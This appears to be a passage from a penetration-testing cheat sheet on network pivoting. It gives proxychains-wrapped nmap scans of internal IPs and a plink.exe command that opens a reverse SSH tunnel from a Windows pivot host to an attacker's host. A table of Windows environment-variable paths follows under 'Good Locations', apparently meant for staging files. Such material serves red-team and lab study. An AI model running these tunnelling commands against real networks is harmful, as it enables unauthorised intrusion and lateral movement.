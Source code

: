 ```bash

# 2. Prepend 'proxychains' to your command:
proxychains nmap -sT -p 80,443 <INTERNAL_IP>

# --- plink.exe (Windows SSH Tunnelling) ---
# Description: PuTTY's command-line tool for Windows reverse connections.

# 1. (Attacker) Convert OpenSSH key to PuTTY format:
puttygen <KEYFILE> -o <OUTPUT_KEY.ppk>

# 2. (Windows Pivot) Transfer plink.exe and the .ppk key, then execute:
cmd.exe /c echo y \| .\plink.exe -R <ATTACKER_PORT>:<TARGET_IP>:<TARGET_PORT> user@<ATTACKER_IP> -i <KEYFILE.ppk> -N
```

## 📁 Files

## 📍 Good Locations

### 🪟 Windows

| Variable                  | Description                                            | Example Value               |
|---------------------------|--------------------------------------------------------|-----------------------------|
| %windir%                  | Windows installation directory                         | C:\Windows                  |
| %SystemRoot%              | Alias for %windir%                                     | C:\Windows                  |
| %ProgramFiles%            | Default directory for 64-bit programs                  | C:\Program Files            |
| %ProgramFiles(x86)%       | Default directory for 32-bit programs on 64-bit systems| C:\Program Files (x86)      |
| %CommonProgramFiles%      | Default directory for 64-bit common files              | C:\Program Files\Common Files|
| %CommonProgramFiles(x86)% | Default directory for 32-bit common files on 64-bit systems | C:\Program Files (x86)\Common Files |
| %SystemDrive%             | Drive letter of the system partition                   | C:                          |
| %USERPROFILE%             | Path to the current user's profile directory           | C:\Users\username           |
| %APPDATA%                 | User's roaming application data directory              | C:\Users\username\AppData\Roaming |
| %LOCALAPPDATA%            | User's local application data directory                | C:\Users\username\AppData\Local |
| %TEMP% or %TMP%           | User's temporary files directory                       | C:\Users\username\AppData\Local\Temp |
| %HOMEDRIVE%               | Drive letter of the user's home directory              | C:                          |
| %HOMEPATH%                | Path to the user's home directory                      | \Users\username             |
| %PATH%                    | Semicolon-separated list of executable search paths    | C:\Windows;C:\Windows\System32 |
| %PATHEXT%                 | Semicolon-separated list of executable file extensions | .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC |
| %PUBLIC%                  | Path to the public user directory                      | C:\Users\Public             |
| %USERNAME%                | The name of the current user                           | username                    |
| %COMPUTERNAME%            | The name of the computer                               | DESKTOP-XXXXXX              |

